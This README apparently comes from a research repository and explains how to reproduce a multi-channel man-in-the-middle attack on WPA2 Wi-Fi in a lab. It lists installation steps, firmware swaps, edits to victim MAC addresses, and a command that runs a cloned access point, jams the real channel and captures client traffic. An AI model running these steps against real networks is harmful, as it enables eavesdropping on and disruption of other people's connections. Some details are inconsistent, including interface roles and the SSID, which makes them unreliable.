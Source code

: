 # Multi Channel Man-in-the-Middle Attacks Against Protected Wi-Fi Networks
This repository describes how to perform MC-MitM (Base Variant) attack using [modwifi tools](https://github.com/vanhoefm/modwifi).To successfully implement this attack, it is important to keep specific linux OS kernels, Wi-Fi cards and several changes in the attack codes. Here, I enlighten about various procedures to perform the MC-MitM attack on WPA2 networks.    
## Brief Background  
Under Construction
## Attack Environment Setup
This tool is tested with the following software platforms and hardware

* Attacker Machine
  * HP Elite 8300 SFF Quad Core
  * OS: XUbuntu 16.04.7 LTS
  * Kernel: 4.4.0-210-generic (Verify your kernel using "uname -r" command)
  * Three Wi-Fi Cards: Qualcomm Atheros Communications AR9271. Driver: ath9k_htc
  * Two Wi-Fi cards working on two different channels and one for jamming the original channel of the Wi-Fi router

* Victim Device 1
  * Dell Inspiron 15 30000 series
  * OS: Microsoft 10
* Victim Device 2
  * Samsung Galxy S7 Edge
  * OS: Adroid 8.0.0
  
* Access Point:
  * TP-LINK Wireless N Router (TL-WR841N)
  * Hardware Version: A2
  * Firmware Version: 8.04
  * Operating mode:802.11g
  * Configured with 50% TX power and channel 1
  * SSID:testnet
  * Wireless Security: WPA/WPA2-PSK
  * Encryption Algorithm: TKIP
  
## Prerequisites and Installation Procedure
### 1. Install the following dependencies on Xubuntu
```
$sudo apt-get update
$sudo apt-get install build-essential libncurses-dev bison flex libssl-dev
$sudo apt-get install g++ libssl-dev libnl-3-dev libnl-genl-3-dev cmake
```
Note:It is better to install each package indiviually
### 2. Install the following modwifi package
Various modwifi packages can be downloaded from [this link](https://github.com/vanhoefm/modwifi/tree/master/releases) according to your linux kernel. However,I use the package "modwifi-4.4-1.tar.gz" since my linux kernal is 4.4. Then perform the following..
```
mkdir modwifi && cd modwifi
wget https://github.com/vanhoefm/modwifi/raw/master/releases/modwifi-4.4-1.tar.gz
tar -xf modwifi-4.4-1.tar.gz
cd drivers && make defconfig-ath9k-debug
make
sudo make install
cd ..
```
### 3. Update firmware of Wi-Fi cards
Backup your Wi-Fi cardś driver and modify them using the following commands
```
compgen -G /lib/firmware/ath9k_htc/*backup || for FILE in /lib/firmware/ath9k_htc/*; do sudo cp $FILE ${FILE}_backup; done
```
To compile and update new firmware, clone the [ath9k-htc repository ](https://github.com/vanhoefm/modwifi-ath9k-htc) or download the ZIP folder, extract the folder, and perform the following
```
make toolchain
make -C target_firmware
```
At the end, two new files named "htc_7010.fw" and "htc_9271.fw" will be appeared in the folder named "target_firmware". Now, replace these two files respectively with "htc_7010-1.4.0.fw" and "htc_9271-1.4.0.fw" located in "/lib/fimware/ath9k_htc" directory. This can be done by 
```
sudo cp /home/manesh/Desktop/modwifi-ath9k-htc-research/target_firmware/htc_7010.fw /lib/firmware/ath9k_htc/htc_7010-1.4.0.fw
```
### 4. Update and compile attack codes
First, we need to rectify certain bugs in the sources codes of MC-MitM attack. As an easy step, modified sources codes/tools can be downloaded from [this link] (https://github.com/Rot127/modwifi-tools/tree/modernization). Downalod the ZIP folder and extract it, which will create a folder named "modwifi-tools-modernization". Then do the following
```
1. cd tools
2. open channelmitm.cpp file
3. Edit MAC address of the client/victim devices in lines 52 and 53 respectively.
4. Compile all files using following commands
   *cmake CMakeLists.txt 
   *make all
```
## Attack Tool Usage
 Before executing tool, we need to change monitor mode on three interfaces. This can be done using the following script
 ```
 $sudo ./config_dongle.sh -i wlan# -k
 ```
 The attack tool can be executed using follwoing command line arguments. Download attack folder from the link (Under construction). 

 ```
 $sudo ./channelmitm -a wlan0 -c wlan1 -j wlan2 -s testnetwork -d mitm.pcap --dual
 ```
 ### Below are the details of wireless interfaces
 
 * `wlan0`: Wireless interface on the channel of AP which listens and injects packets on the real channel
 * `wlan1`: Wireless interface that runs the Rogue AP or cloned AP
 * `wlan1`: Wireless Interface used to jam the targeted AP
 * `"testnet"`: SSID of the target network
 * `mitm.pcap`: Capture traffic from cloned AP to clients to .pcap file
 *  `dual`: Indicates to attack both clients
 * You can see many other options running `sudo ./channelmitm `!
 

 ### Files Generated
 After running the script for the first time, some new files will be generated:

  ## Demonstration Video
[![Analysis of Network behavior during channel switch announcements](https://github.com/maneshthankappan/Multi-Channel-Man-in-the-Middle-Attacks-Against-Protected-Wi-Fi-Networks/blob/main/thumb.jpg)](https://www.youtube.com/watch?v=axqbioyjom0)

  ## Analysis of network behavior during MC-MitM attack
  Under construction  
  
  ## Troubleshooting
  Under construction  
 hhhhhh
  ### References

